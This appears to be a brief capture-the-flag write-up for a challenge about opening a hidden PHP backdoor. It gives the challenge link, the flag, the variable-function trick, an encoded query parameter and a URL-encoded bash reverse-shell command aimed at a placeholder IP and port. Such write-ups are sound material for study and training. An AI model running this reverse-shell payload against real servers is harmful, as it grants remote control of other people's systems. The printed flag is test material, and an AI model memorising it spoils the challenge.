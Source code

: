 # open my backdoor
毛哥是一位年輕有為且腿毛多的資安研究員  
並且毛哥還是一位PHP大師，所以他在伺服器上放了只有他自己才看得懂的PHP後門  
但由於毛哥平時過於驕傲自大，你決定給他點顏色瞧瞧  
請你開他的後門，把藏在深處的那把flag挖出來吧!

[door](http://edu-ctf.csie.org:10151/)

## PoC
`FLAG{do_u_like_my_d0000000r?}`
* Variable functions
* `?87=%01HU%11`
* `%23=bash -c 'bash -i >%26 /dev/tcp/<ip>/<port> 0>%261'`
